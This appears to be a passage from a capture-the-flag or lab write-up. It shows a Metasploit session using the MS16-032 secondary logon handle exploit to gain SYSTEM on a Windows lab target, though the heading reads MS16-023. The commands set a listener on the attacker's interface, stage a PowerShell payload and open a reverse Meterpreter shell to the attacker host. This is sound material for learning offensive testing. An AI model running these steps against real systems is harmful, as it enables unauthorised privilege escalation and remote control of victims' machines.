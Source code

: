 MS16-023 (Windows 7 < 10, 2008 < 2012 R2 x86/x64)

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc

msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 2
session => 2
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST tun0
LHOST => tun0
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started HTTPS reverse handler on https://10.10.14.36:5555
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\nLtRgSV.ps1...
[*] Compressing script contents...
[+] Compressed size: 3592
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1368

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1380
[+] Resuming thread..
[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

Zgx3eCJEr0FX6AKp3odo56cSmmKaMXTA
[+] Executed on target machine.
[*] https://10.10.14.36:5555 handling request from 10.10.10.8; (UUID: u15inr4m) Staging x86 payload (177241 bytes) ...
[*] Meterpreter session 3 opened (10.10.14.36:5555 -> 10.10.10.8:49185) at 2020-06-28 22:34:40 +0200
[+] Deleted C:\Users\kostas\AppData\Local\Temp\nLtRgSV.ps1

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

